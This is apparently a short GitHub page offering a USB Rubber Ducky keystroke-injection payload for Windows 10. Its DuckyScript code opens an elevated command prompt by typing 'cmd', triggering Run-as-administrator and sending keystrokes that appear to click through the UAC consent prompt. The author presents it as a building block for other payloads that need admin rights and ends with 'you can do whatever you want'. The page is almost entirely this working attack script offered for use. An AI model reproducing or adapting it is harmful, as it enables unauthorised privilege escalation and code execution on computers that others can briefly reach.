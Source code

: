 # Payload
This simple payload just open a CMD with admin privileges, use it in any payload that need an admin privilege to perform commands.

***

# Code

    REM Opens a CMD as admin on windows 10
    REM Target: Windows 10
    DELAY 1000
    WINDOWS d
    DELAY 100
    WINDOWS
    DELAY 100
    STRING cmd
    DELAY 100
    CONTROL-SHIFT ENTER
    DELAY 150
    LEFTARROW
    DELAY 150
    ENTER
    REM You got an admin CMD, you can do whatever you want


_zqrk_